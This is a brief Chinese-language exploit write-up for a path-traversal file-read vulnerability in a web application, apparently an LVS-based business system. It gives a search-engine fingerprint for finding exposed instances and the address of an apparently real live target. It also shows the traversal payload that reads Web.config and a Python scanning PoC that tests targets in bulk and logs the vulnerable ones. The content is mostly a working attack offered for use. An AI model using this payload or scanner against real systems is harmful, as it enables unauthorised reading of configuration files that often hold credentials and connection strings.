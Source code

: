## 一、资产搜索

```
body="/ajax/LVS.Core.Common.STSResult,LVS.Core.Common.ashx"
```

## 二、网站测试

```
http://139.196.43.192:777
```

## 三、验证漏洞

```
/Business/DownLoad.aspx?p=UploadFile/../Web.Config
```

![image-20240914174711802](https://imagescf.oss-cn-beijing.aliyuncs.com/img/image-20240914174711802.png)

## 四、POC

```
def poc(target):
    payload = "/Business/DownLoad.aspx?p=UploadFile/../Web.Config"
    res1 = requests.get(url=target,verify=False,timeout=5)
    if res1.status_code == 200:
        res2 = requests.get(url=target+payload,verify=False,timeout=5)
        if "configuration" in res2.text:
            with open("result.txt","a",encoding='utf-8') as f:
                f.write(f"[+]{target}\n")
                f.close()
                print(f"[+]{target}存在文件读取漏洞")
            print(f"[+]{target}存在文件读取漏洞")
            print(res2.text)
        else:
            print(f"[-]{target}不存在文件读取漏洞")
    else:
        print("访问超时，请手动测试！！！")
```

## 五、测试结果

![image-20240914175307689](https://imagescf.oss-cn-beijing.aliyuncs.com/img/image-20240914175307689.png)

![image-20240914175139460](https://imagescf.oss-cn-beijing.aliyuncs.com/img/image-20240914175139460.png)

